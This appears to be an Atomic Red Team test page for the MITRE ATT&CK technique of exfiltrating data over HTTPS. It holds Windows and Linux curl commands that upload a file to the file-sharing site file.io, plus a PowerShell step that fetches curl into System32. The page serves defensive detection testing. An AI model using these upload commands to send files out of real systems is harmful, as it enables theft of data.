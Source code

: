 # T1048.002 - Exfiltration Over Asymmetric Encrypted Non-C2 Protocol
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1048/002)
<blockquote>Adversaries may steal data by exfiltrating it over an asymmetrically encrypted network protocol other than that of the existing command and control channel. The data may also be sent to an alternate network location from the main command and control server. 

Asymmetric encryption algorithms are those that use different keys on each end of the channel. Also known as public-key cryptography, this requires pairs of cryptographic keys that can encrypt/decrypt data from the corresponding key. Each end of the communication channels requires a private key (only in the procession of that entity) and the public key of the other entity. The public keys of each entity are exchanged before encrypted communications begin. 

Network protocols that use asymmetric encryption (such as HTTPS/TLS/SSL) often utilize symmetric encryption once keys are exchanged. Adversaries may opt to use these encrypted mechanisms that are baked into a protocol. </blockquote>

## Atomic Tests

- [Atomic Test #1 - Exfiltrate data HTTPS using curl windows](#atomic-test-1---exfiltrate-data-https-using-curl-windows)

- [Atomic Test #2 - Exfiltrate data HTTPS using curl linux](#atomic-test-2---exfiltrate-data-https-using-curl-linux)


<br/>

## Atomic Test #1 - Exfiltrate data HTTPS using curl windows
Exfiltrate data HTTPS using curl to file share site file.io

**Supported Platforms:** Windows


**auto_generated_guid:** 1cdf2fb0-51b6-4fd8-96af-77020d5f1bf0





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| input_file | Test file to upload | Path | PathToAtomicsFolder/T1048.002/src/artifact|
| curl_path | path to curl.exe | Path | C:&#92;Windows&#92;System32&#92;Curl.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
#{curl_path} -F 'file=@#{input_file}' -F 'maxDownloads=1' -F 'autoDelete=true' https://file.io/
```




#### Dependencies:  Run with `powershell`!
##### Description: Curl must be installed on system.
##### Check Prereq Commands:
```powershell
if (Test-Path #{curl_path}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest "https://curl.se/windows/dl-7.79.1/curl-7.79.1-win64-mingw.zip" -Outfile $env:temp\curl.zip
Expand-Archive -Path $env:temp\curl.zip -DestinationPath $env:temp\curl
Copy-Item $env:temp\curl\curl-7.79.1-win64-mingw\bin\curl.exe C:\Windows\System32\Curl.exe
Remove-Item $env:temp\curl
Remove-Item $env:temp\curl.zip
```




<br/>
<br/>

## Atomic Test #2 - Exfiltrate data HTTPS using curl linux
Exfiltrate data HTTPS using curl to file share site file.io

**Supported Platforms:** macOS, Linux


**auto_generated_guid:** 4a4f31e2-46ea-4c26-ad89-f09ad1d5fe01





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| input_file | Test file to upload | Path | PathToAtomicsFolder/T1048.002/src/artifact|


#### Attack Commands: Run with `bash`! 


```bash
curl -F 'file=@#{input_file}' -F 'maxDownloads=1' -F 'autoDelete=true' https://file.io/
```






<br/>
